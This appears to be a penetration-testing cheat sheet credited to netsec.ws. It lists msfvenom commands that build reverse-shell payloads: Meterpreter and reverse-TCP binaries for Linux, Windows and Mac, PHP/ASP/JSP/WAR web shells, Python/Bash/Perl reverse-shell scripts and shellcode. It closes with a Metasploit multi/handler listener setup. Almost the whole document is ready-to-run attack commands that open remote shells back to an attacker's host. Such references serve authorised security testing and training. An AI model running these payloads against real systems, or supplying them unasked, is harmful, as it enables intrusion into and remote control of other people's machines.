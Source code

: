 # 0x03 - Payloads

## Creating Payloads with MSFVENOM

### Binaries

#### Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

#### Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

#### MAC

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

### Web Payloads

#### PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

#### ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

#### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

#### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

### Scripting Payloads

#### Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

#### Bash

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

#### Perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

### Shellcode

#### Linux Based Shellcode

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

####  Windows Based Shellcode 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

####  Mac Based Shellcode

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Metasploit

```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit
```

---

Original: [netsec.ws](https://netsec.ws/?p=331)